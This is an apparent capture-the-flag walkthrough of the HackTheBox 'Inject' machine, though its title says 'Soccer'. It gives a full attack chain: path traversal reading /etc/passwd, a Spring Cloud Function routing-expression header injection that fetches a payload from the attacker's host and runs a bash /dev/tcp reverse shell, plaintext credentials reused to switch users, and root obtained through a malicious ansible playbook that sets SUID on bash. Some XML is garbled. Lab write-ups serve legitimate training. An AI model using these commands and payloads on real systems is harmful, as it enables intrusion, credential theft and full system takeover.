






Resolution of the Soccer machine of the HackTheBox platform
We start by scanning the ports of the machine with nmap
❯ nmap 10.10.11.204
Nmap scan report for 10.10.11.204
PORT STATE SERVICE
22/tcp open ssh
8080/tcp open http-proxy
For convenience I will add the.htb domain to the /etc/hosts file
echo "10.10.11.204 inject.htb" | sudo tee -a /etc/hosts
On the web we can see a fairly simple page to store and share files

We can see a Sign Up but when trying to register we can see that it is not available

We also find an upload field when clicking on it, we see a page with file upload

When trying to upload a file with extension php tells us that it only accepts image files

Changing the extension to jpg lets us upload it and tells us that we can open the image

Opening it returns 500 for being a php, but we see that it manages the image with show_image

When making the request with curl returns a json where we find something interesting
❯ curl -s "http://inject.htb:8080/show_image?img=test.jpg" | jq
{
"timestamp": "2023-**-**T**:**:**.***+00:00",
"status": 500,
"error": "Internal Server Error",
"message": "URL [file:/var/www/WebApp/src/main/uploads/test.jpg] cannot be resolved in the file system for checking its content length",
"path": "/show_image"
}With file points to a fixed path ending it with the file passed through show_image
file:/var/www/WebApp/src/main/uploads/test.jpg
By passing the directory path traversal and the passwd we can see the file without problems
curl -s "http://inject.htb:8080/show_image?img=../../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
As it is not through php a java configuration also allows us to list directories
curl -s "http://inject.htb:8080/show_image?img=../../../../../../"
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
varPart of the UserController file.java where is the vulnerability that allows us to list and read
@RequestMapping(value = "/show_image", method = RequestMethod.GET)
public ResponseEntity getImage(@RequestParam("img") String name) {
String fileName = UPLOADED_FOLDER + name;
Path path = Paths.get(fileName);
Resource resource = null;
try {
resource = new UrlResource(path.toUri());
} catch (MalformedURLException e){
e.printStackTrace();
}
return ResponseEntity.ok().contentType(MediaType.IMAGE_JPEG).body(resource);
}
To change we can create a bash script that lists files and when there is that reads them
#!/bin/bash
if [ -z $1 ]; then
echo -e "\n\033[0;37m[\033[0;31m-\033[0;37m] Uso: $0 \n"
exit 1
fi
path="http://inject.htb:8080/show_image?img=../../../../../..$1"
timeout 1 curl -s $path
exit 0
When we go to /var/www/ in addition to html we can see WebApp where the web is mounted
./lfi.sh /var/www/WebApp/
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
target
We can simply pass the path and read the xml file with the configuration
./lfi.sh /var/www/WebApp/pom.xml
<? xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion<4.0.0>/modelVersion
<parent>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-parent</artifactId>
<version>2.6.5</version>
<relativePath/> <! - lookup parent from repository →>
</parent>
<groupId>com.example</groupId>
<artifactId>WebApp</artifactId>
<version>0.0.1-SNAPSHOT</version>
<name>WebApp</name>
<description>Demo project for Spring Boot</description>
<properties>
<java.version>11</java.version>
</properties>
<dependencies>
<dependency>
<groupId>com.sun.activation</groupId>
<artifactId>javax.activation</artifactId>
<version>1.2.0</version>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-web</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-devtools</artifactId>
<scope>runtime</scope>
<optional>true</optional>
</dependency>
<dependency>
<groupId>org.springframework.cloud</groupId>
<artifactId>spring-cloud-function-web</artifactId>
<version>3.2.2</version>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-test</artifactId>
<scope>test</scope>
</dependency>
<dependency>
<groupId>org.webjars</groupId>
<artifactId>bootstrap</artifactId>
<version>5.1.3</version>
</dependency>
<dependency>
<groupId>org.webjars</groupId>
<artifactId>webjars-locator-core</artifactId>
</dependency>
</dependencies>
<build>
<plugins>
<plugin>
<groupId>org.springframework.boot&</groupId>
<artifactId>spring-boot-maven-plugin&</artifactId>
<version>${parent.version}</version>
</plugin>
</plugins>
<finalName>spring-webapp&</finalName>
</build>
</project>In one of the dependencies we can see spring-cloud-function-web version 3.2.2
<dependency>
<groupId>org.springframework.cloud</groupId>
<artifactId>spring-cloud-function-web>/artifactId>
<version>3.2.2</version>
</dependency>By listing the /tmp directory we can see that the pwned file has been created, the touch has been executed
❯./lfi.sh /tmp/
.font-unix
.ICE-unix
.Test-unix
.X11-unix
.XIM-unix
hsperfdata_frank
pwned
…………….
For the revshell we create an index file.html with the reverse shell in bash and share it
❯ cat index.html
bash -i >& /dev/tcp/10.10.**.**/443 0>&1
❯sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
We change the command for a curl to our host that saves the index in /tmp as revshell
With the local file inclusion we can see that you have created the file with the reverse shell
❯ ./lfi.sh /tmp/revshell
bash -i >& /dev/tcp/10.10.**.**/443 0>&1
We change the command for a curl to our host that saves the index in /tmp as revshel
❯ curl --request POST 'http://10.129.178.226:8080/functionRouter' -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('curl 10.10.**.**/rev.sh -o /tmp/rev')" --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
* Trying 10.129.178.226:8080...
* Connected to 10.129.178.226 (10.129.178.226) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.129.178.226:8080
> User-Agent: curl/7.83.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('curl 10.10.**.**/rev.sh -o /tmp/rev')
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 500
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 12 Mar 2023 04:22:14 GMT
< Connection: close
<
{"timestamp":"2023-03-12T04:22:14.543+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}* Closing connection 0
Now we can execute the revshell file
❯ curl --request POST 'http://10.129.178.226:8080/functionRouter' -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('bash /tmp/rev')" --data-raw 'data' -v
Note: Unnecessary use of -X or --request, POST is already inferred.
* Trying 10.129.178.226:8080...
* Connected to 10.129.178.226 (10.129.178.226) port 8080 (#0)
> POST /functionRouter HTTP/1.1
> Host: 10.129.178.226:8080
> User-Agent: curl/7.83.1
> Accept: */*
> spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('bash /tmp/rev')
> Content-Length: 4
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 500
< Content-Type: application/json
< Transfer-Encoding: chunked
< Date: Sun, 12 Mar 2023 04:30:48 GMT
< Connection: close
<
{"timestamp":"2023-03-12T04:30:48.617+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}* Closing connection 0
# nc -lvnp 443
bash: cannot set terminal process group (809): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ id
Now as a command we execute bash and the revshell file and we get the shell as frank
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.**.** 443
frank@inject:/$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
frank@inject:/$ hostname -I
10.10.**.**
frank@inject:/$
In the home we can use find and in the files we list a configuration xml
❯frank@inject:/home$ find
.
./.bashrc
./.bash_history
./.m2
./.m2/settings.xml
./.local
./.local/share
./.local/share/nano
./.cache
./.cache/motd.legal-displayed
./.profile
frank@inject:~$
The xml contains among other things clear text credentials of the user phil
❯ frank@inject:~$ cat .m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
<servers>
<server>
<id>Inject</id>
<username>phil</username>
<password>DocPhillovestoInject123</password>
<privateKey>${user.home}/.ssh/id_dsa</privateKey>
<filePermissions>660</filePermissions>
<directoryPermissions>660</directoryPermissions>
<configuration></configuration>
</server>
</servers>
</settings>
frank@inject:~$
With your we can easily become phil by passing the password found.
❯ frank@inject:~$ su phil
Password: DocPhillovestoInject123
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:~$ hostname -I
10.10.11.204
phil@inject:~$ cat ~/user.txt
**************************
phil@inject:~$
With pspy we can see root run with ansible-parallel all yml in
/opt/automation/tasks/
UID=0 | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
phil@inject:~$ ls -la /opt/automation/tasks/
drwxrwxr-x 2 root staff 4096 Mar 13 18:18 .
drwxr-xr-x 3 root root 4096 Oct 20 04:23 ..
-rw-r--r-- 1 root root 150 Mar 13 18:18 playbook_1.yml
phil@inject:~$
phil@inject:/opt/automation/tasks$ cat privesc.yml
- hosts: localhost
gather_facts: false
become: true
tasks:
- name: Privilege Escalation
command: chmod u+s /bin/bash
phil@inject:/opt/automation/tasks$
After a while the yml will be executed and the bash will have suid permission, finally we are root
phil@inject:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bash
phil@inject:~$ bash -p
bash-5.0# whoami
root
bash-5.0# hostname -I
10.10.11.204
bash-5.0# cat /root/root.txt
d1d**************************bb4
bash-5.0#